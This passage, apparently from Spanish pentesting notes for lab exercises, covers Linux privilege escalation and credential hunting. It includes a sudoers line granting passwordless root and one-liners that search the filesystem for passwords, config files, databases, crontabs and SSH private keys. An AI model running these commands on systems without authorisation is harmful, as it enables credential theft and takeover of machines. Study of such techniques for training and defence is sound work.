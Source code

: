 - Si tenemos permiso de escritura sobre este archivo podemos añadir la siguiente línea: 
	```
	myuser ALL=(ALL) NOPASSWD: ALL
	```
## Credential hunting
### Variables de entorno
```bash
env
```
### Archivos de configuración
#### Mostrar archivos de configuración
```bash
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```
### Buscar una palabra concreta en archivos del sistema
```bash
grep -r --exclude-dir=/proc --exclude-dir=/sys --exclude-dir=/dev "HTB{" / 2>/dev/null
```
#### Credenciales en archivos de configuración
```bash
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass|\cred" $i 2>/dev/null | grep -v "\#";done
```
### Archivos con otras extensiones
```bash
for ext in $(echo ".xls .xls* .xltx .csv .od* .doc .doc* .pdf .pot .pot* .pp*");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```
### Bases de datos
```bash
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```
### Notas
```bash
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```
### Scripts
```bash
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```
### Crontabs
```bash
# Crontab global
cat /etc/crontab
# Scripts programados con /etc/cron
ls -la /etc/cron.*/
# Crontab de un usuario específico
crontab -l -u <usuario>
# Según permisos de escritura
ls -la /var/spool/cron/crontabs/ 
cat /var/spool/cron/crontabs/*
```
### Claves SSH
#### Claves privadas
```bash
 grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```